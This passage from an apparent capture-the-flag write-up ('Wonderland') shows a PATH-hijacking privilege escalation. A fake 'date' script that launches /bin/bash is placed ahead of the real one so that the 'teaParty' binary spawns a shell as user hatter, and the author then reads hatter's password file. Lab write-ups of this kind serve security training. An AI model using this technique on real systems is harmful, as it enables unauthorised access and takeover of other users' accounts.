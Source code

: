 We can see the initial text that gets printed, followed by:

`/bin/echo -n 'Probably by ' && date --date='next hour' -R`

And we can use a simliar tactic to the one we did above when we created the random.py file in our directory. This time we'll create a new **date** command since the code doesn't call /bin/date and just has date.

First let's change our PATH variable so when we run the program it will look for our newly created date command in our home directory first. I run:

`export PATH=/home/rabbit:$PATH`

And verify with the `env` command to see what the new PATH variable is:

```
PATH=/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

Now let's create our new date command, that will basically just start a shell for us. Name the file **date** and put it in the same directory as the **teaParty** command with the following contents:

```
#!/bin/bash

/bin/bash
```

<br>

## Hatter

`chmod +x date` to make it executable and then run `teaParty again`:

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$
```

You can see that where it would have put the date it cut off and ran a shell instead, and we're now logged in as user **hatter**.

Switching over to the **hatter** home directory shows us a file called **password.txt**. Looking inside gives you the password that allows us to ssh over as **hatter** instead of going through all the previous steps. Very helpful in case the box resets.

```
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
```

Checking `sudo -l` as hatter:

```
Sorry, user hatter may not run sudo on wonderland.
```
